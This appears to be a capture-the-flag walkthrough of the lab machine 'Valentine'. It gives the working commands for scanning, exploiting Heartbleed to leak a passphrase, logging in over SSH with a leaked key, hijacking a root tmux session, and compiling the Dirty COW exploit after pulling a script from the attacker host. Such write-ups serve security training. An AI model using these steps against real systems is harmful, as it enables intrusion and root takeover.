# Valentine

## scanning
```bash
furious 10.10.10.79

nmap -sC -sV -p80,443,22 -n -Pn 10.10.10.79 -oN targeted
```


## 80 
```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.79/FUZZ
```


http://10.10.10.79/dev/notes.txt


```bash
wget http://10.10.10.79/dev/hype_key
```


## heartbleed
```bash
sslscan 10.10.10.79
```


### Locate categories of nmap
```bash
locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u
nmap --script "vuln and safe" -p 443 10.10.10.79
```

```bash
wget https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py

python heartbleed.py 10.10.10.79 -n 150
```

```bash
#dato obtenido
text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
echo $text | base64 -d
# heartbleedbelievethehype
```

## hype_key
```bash
cat hype_key | tr -d " " | xxd -ps -r
```


```bash
ssh -i id_rsa hype@10.10.10.79

cat /home/hype/user.txt
```

## privilege scalation

```bash
ps aux
```


```bash
tmux -S /.devs/dev_sess
cat /root/root.txt
```

## Dirty cow (another form)


```bash
# on victim machine
uname -a
lsb_release -a

# attacker machine
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
# set a python http server
sudo python3 -m http.server 80

# on victim machine accept the file from the attacker machine
cd /tmp
wget http://10.10.14.5/lse.sh
```

### search for a dirty cow PoC
```bash
searchsploit dirty cow
searchsploit -m linux/local/40839.c
```
### we pass it to the victim machine and compile it there
```bash
mv 40839.c dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty

#ctrl + c
su firefart
cat /root/root.txt
```



